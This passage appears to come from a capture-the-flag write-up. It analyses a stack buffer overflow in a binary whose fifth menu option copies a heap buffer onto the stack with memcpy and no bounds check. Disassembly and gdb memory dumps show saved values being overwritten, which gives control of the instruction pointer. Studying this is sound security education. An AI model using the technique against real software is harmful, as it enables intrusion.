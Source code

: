 chosing the option 5 is where magic happens, because we enter in abranch of code that does the following:

    0x0040152e    8b45ec       mov eax, [rbp-0x14]
    0x00401531    c1e002       shl eax, 0x2
    0x00401534    4863d0       movsxd rdx, eax
    0x00401537    488b4df0     mov rcx, [rbp-0x10]
    0x0040153b    488d45c0     lea rax, [rbp-0x40]
    0x0040153f    4889ce       mov rsi, rcx
    0x00401542    4889c7       mov rdi, rax
    0x00401545    e886130200   call sym.memcpy
    0x004228d0() ; sym.memcpy
    0x0040154a    488b45f0     mov rax, [rbp-0x10]
    0x0040154e    4889c7       mov rdi, rax
    0x00401551    e87a410100   call sym.free
    0x004156d0() ; sym.__cfree
    0x00401556    b800000000   mov eax, 0x0
    0x0040155b    eb2b         jmp 0x401588

Essentially what happens here is that

- the area of memory allocated in the heap is copied on the stack using **memcpy()**
- then free() is called
- finally the main() function returns.

But since there is no boundary check, if we allocate a big enough chunk of memory on the heap, when memcpy() is invoked what happens is that the stack is smashed badly; plus with the fact that by doing arbitrary math operations we can chose what goes on the heap, this means we can overwrite saved registers values on the stack with arbitrary addresses, resulting in a control of the instruction pointer.

As we can see in the following memory dumps of the heap and stack

    gdb-peda$ x/32wx 0x725bd0
    0x725bd0:	0x41414141	0x41414142	0x41414143	0x41414144
    0x725be0:	0x41414145	0x41414146	0x41414147	0x41414148
    0x725bf0:	0x41414149	0x4141414a	0x4141414b	0x4141414c
    0x725c00:	0x4141414d	0x00000000	0x00000000	0x00000000
    0x725c10:	0x00000000	0x00000000	0x00000000	0x00000000
    0x725c20:	0x00000000	0x00000000	0x00000000	0x00000000
    0x725c30:	0x00000000	0x00000000	0x00000000	0x00000000
    0x725c40:	0x00000000	0x00000000	0x00000000	0x00000000

    0x7ffe47681940:	0x00000001	0x00000000	0x00000001	0x00000000
    0x7ffe47681950:	0x47681a68	0x00007ffe	0x00401c77	0x00000000
    0x7ffe47681960:	0x004002b0	0x00000000	0x00000005	0x000000be
    0x7ffe47681970:	0x00bcabd0	0x00000000	0x00401c00	0x0000005a
    0x7ffe47681980:	0x006c1018	0x00000000	0x0040176c	0x00000000
    0x7ffe47681990:	0x00000000	0x00000000	0x00000000	0x00000001
    0x7ffe476819a0:	0x47681a68	0x00007ffe	0x00401383	0x00000000
    0x7ffe476819b0:	0x004002b0	0x00000000	0x0aa3d5f9	0xf71192f8

when memcpy() is called our pointers are going to be overwritten

    => 0x401545 <main+450>:	call   0x4228d0 <memcpy>
       0x40154a <main+455>:	mov    rax,QWORD PTR [rbp-0x10]
       0x40154e <main+459>:	mov    rdi,rax
       0x401551 <main+462>:	call   0x4156d0 <free>
       0x401556 <main+467>:	mov    eax,0x0
    Guessed arguments:
    arg[0]: 0x7ffe47681940 --> 0x1
    arg[1]: 0xbcabd0 ("AA...")
    arg[2]: 0x2f8
    arg[3]: 0xbcabd0 ("AAAA..."...)
